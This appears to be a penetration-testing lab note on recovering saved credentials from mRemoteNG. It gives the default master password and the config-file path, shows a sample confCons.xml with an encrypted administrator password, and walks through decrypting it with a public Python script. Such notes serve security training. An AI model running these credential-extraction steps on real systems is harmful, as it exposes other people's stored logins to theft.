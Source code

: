 **mRemoteNG**

a tool used to manage and connect to remote systems using VNC, RDP, SSH, and similar protocols.

It saves connection info and credentails to `confCons.xml` , the default password is <mark style="color:blue;">**mR3m**</mark>. By default the config file is located in&#x20;

* `%USERPROFILE%\APPDATA\Roaming\mRemoteNG`

**Discover mRemoteNG Configuration Files**

```powershell-session
PS C:\htb> ls C:\Users\julio\AppData\Roaming\mRemoteNG

    Directory: C:\Users\julio\AppData\Roaming\mRemoteNG

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        7/21/2022   8:51 AM                Themes
-a----        7/21/2022   8:51 AM            340 confCons.xml
              7/21/2022   8:51 AM            970 mRemoteNG.log
```

**confCons.xml**

```xml
<?XML version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="QcMB21irFadMtSQvX5ONMEh7X+TSqRX3uXO5DKShwpWEgzQ2YBWgD/uQ86zbtNC65Kbu3LKEdedcgDNO6N41Srqe" ConfVersion="2.6">
    <Node Name="RDP_Domain" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="096332c1-f405-4e1e-90e0-fd2a170beeb5" Username="administrator" Domain="test.local" Password="sPp6b6Tr2iyXIdD/KFNGEWzzUyU84ytR95psoHZAFOcvc8LGklo+XlJ+n+KrpZXUTs2rgkml0V9u8NEBMcQ6UnuOdkerig==" Hostname="10.0.0.10" Protocol="RDP" PuttySession="Default Settings" Port="3389"
    ..SNIP..
</Connections>
```

**Decrypt the Password with mremoteng\_decrypt**

{% embed url="https://github.com/haseebT/mRemoteNG-Decrypt" %}
Script to decrypt the password
{% endembed %}

```shell-session
python3 mremoteng_decrypt.py -s "sPp6b6Tr2iyXIdD/KFNGEWzzUyU84ytR95psoHZAFOcvc8LGklo+XlJ+n+KrpZXUTs2rgkml0V9u8NEBMcQ6UnuOdkerig==" 

Password: ASDki230kasd09fk233aDA
```

If it doesn't has a custom password set then use the above command, if it does, then add the -p and define the password.

```shell-session
python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA==" -p admin

Password: ASDki230kasd09fk233aDA
```
